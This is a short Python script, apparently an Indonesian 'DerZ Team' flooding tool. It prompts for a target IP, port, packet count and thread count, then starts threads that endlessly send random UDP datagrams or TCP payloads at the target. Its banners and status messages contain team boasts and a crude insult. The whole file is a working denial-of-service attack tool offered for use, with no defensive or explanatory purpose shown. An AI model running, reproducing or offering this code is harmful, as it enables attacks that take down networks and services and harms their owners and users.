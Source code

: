 #!/usr/bin/env python3
import random
import socket
import threading

print       (" - - > Lord DerZ nih dek!! < - - ")
print       (" - - > DerZ Nih Dek!!!! < - - ")
print       (" - - > Join DerZ Team <- - ")                                   
print       (" - - > Rename Pm Gw !! < - - ")
print       (" - - > DerZ Nih dek  < - - ")
print       (" - - > Tuh link nya Join!! < - - ")
print       (" - - >  DERZ TEAM KATA ILHAM  < - - ")
    
ip = str(input("  IP/HOST:"))
port = int(input(" PORT:"))
choice = str(input(" SERIUS NIHH MAU NYERANG HA ? (y/n):"))
times = int(input(" PAKET NYA MAU BERAPA NIEH:"))
threads = int(input(" MAU BERAPA PELOR NIEH:"))
def run():
	data = random._urandom(1000)
	i = random.choice(("[+]","[-]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
			addr = (str(ip),int(port))
			for x in range(times):
				s.sendto(data,addr)
			print(i +" Paket From Lord Xinzu!!! ")
		except:
			print("[!] Down Kontol!!!")

def run2():
	data = random._urandom(16)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" Paket From Lord DerZ!!! ")
		except:
			s.close()
			print("[*] Down Kontol!!!")
            
for y in range(threads):
	if choice == 'y':
		th = threading.Thread(target = run)
		th.start()
	else:
		th = threading.Thread(target = run2)
		th.start()                                             
